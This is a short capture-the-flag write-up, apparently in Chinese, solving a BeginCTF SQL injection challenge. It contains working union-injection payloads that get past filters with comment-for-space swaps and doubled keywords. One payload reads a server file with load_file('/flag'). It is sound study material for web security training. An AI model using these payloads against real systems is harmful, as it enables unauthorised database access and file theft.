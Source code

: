 ```yaml
---
title: [BeginCTF]SQL教学局
category: CTF-Web-SQL
date: 2024-2-3
---
```


> source:[BeginCTF]SQL教学局

## info

![img]([https://x1lys.github.io/X1lyS.blog.github.io/src/assets/img/](https://x1lys.github.io/X1lyS.blog.github.io/src/assets/img/)7-1-1.png)

## EXP

```cpp
?user=1'/**/union/**/seselectlect/**/flag/**/frofromm/**/secret.passwoorrd%23
```

![img]([https://x1lys.github.io/X1lyS.blog.github.io/src/assets/img/](https://x1lys.github.io/X1lyS.blog.github.io/src/assets/img/)7-1-2.png)

```cpp
?user=1'/**/union/**/seselectlect/**/grade/**/frofromm/**/scoorre/**/where/**/student/**/like/**/'begin'%23
```

![img]([https://x1lys.github.io/X1lyS.blog.github.io/src/assets/img/](https://x1lys.github.io/X1lyS.blog.github.io/src/assets/img/)7-1-3.png)

```cpp
?user=1'/**/union/**/seleselectct/**/loaloadd_file('/flag')%23
```

![img]([https://x1lys.github.io/X1lyS.blog.github.io/src/assets/img/](https://x1lys.github.io/X1lyS.blog.github.io/src/assets/img/)7-1-4.png)

## Summary

```cpp
类型：
联合查询注入

注释：
%23

空格过滤绕过：
/**/

关键字'or','from','select','load'过滤绕过：
双写关键字

and过滤绕过：
like

文件读取函数：
load_file('/path')
```

